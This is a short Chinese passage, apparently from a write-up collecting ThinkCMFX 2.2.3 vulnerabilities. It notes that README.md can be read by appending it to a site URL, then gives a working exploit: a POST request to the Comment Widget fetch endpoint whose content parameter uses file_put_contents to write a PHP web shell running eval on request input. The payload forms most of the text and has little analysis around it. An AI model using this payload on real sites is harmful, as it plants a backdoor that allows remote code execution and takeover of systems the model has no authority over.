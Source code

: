 ##### 3，查看 README.md

在网站url后面输入README.md

![](./resource/THINKCMFX_2.2.3漏洞合集/media/rId69.jpg)

另外还有一个说明，你在实际操作的过程中，可能会遇到他一直报这个错

    url:http://thinkcmf.test/index.php?g=Comment&m=Widget&a=fetch
    post:
    templateFile=/../public/index
    prefix=''
    content=<php>file_put_contents('test.php','<?php eval($_REQUEST[11]);')</php>

![](./resource/THINKCMFX_2.2.3漏洞合集/media/rId70.jpg)
